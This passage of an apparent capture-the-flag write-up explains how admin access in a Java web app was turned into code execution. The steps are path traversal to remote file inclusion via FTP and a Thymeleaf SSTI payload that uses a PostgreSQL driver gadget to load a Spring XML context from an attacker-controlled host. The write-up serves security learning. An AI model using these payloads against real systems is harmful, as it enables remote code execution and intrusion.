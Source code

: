 Now with admin, we can:

1. Create messages and exploit SQLi in insert query
2. Perform SSTI in /notify endpoint

While I was trying to get file write in the SQLi, adragos found path traversal
\+ undocumented LFI to FTP in the /notify endpoint.

`?fname=..%5c..%5c..%5c/endpoint/test.txt%23`

(`\` will fail in catalina reverse proxy, and `#` strips out the `.html`
extension (not necessary for final payload though))

The additional `..\` is apparently parsed such that the hostname of
`file://host/path` can be controlled. This is super cool because we can
escalate to RFI, which bypassed the need for Postgres file write.

(from here on adragos already solved everything, but since I had to solve it I
tried on my own anyway)

So I hosted an FTP server to load the attacker template.

### Part 3: SSTI

Thymeleaf 13.0.2 is quite annoying cos it added a lot of restrictions to SSTI
in "unsafe" context, by preventing instantiation of several common key classes.
This was also my first time doing Thymeleaf SSTI (or Java SSTI in general) so I
was quite lost. After adragos solved the challenge I peeked at his payload then
tried to make my own.

The trick is to look for gadgets in the other libraries loaded in the app, that
allow you to instantiate classes with calls such as
`constructor.newInstance(args)` etc.

My final payload:
```
[[${T(
org.postgresql.util.ObjectFactory
).instantiate(
"".getClass().forName(
"org."+"springframework.context.support.FileSystemXmlApplicationContext"
),
"org."+"springframework.context.support.FileSystemXmlApplicationContext",
null,
true,
"http://<attacker>:<port>/poc.xml"
)
}]]
```

`T(class)` is quite useful for instantiating classes from qualified name, but this
is blocked by Thymeleaf restrictions, so I can't just instantiate
`java.lang.Runtime`.

`"".getClass().forName(class)` also can be used to create classes and isn't
blocked by Thymeleaf I think? But the class instantiated from here is useless
cos I can't call any methods on it for some reason? (need to research more)
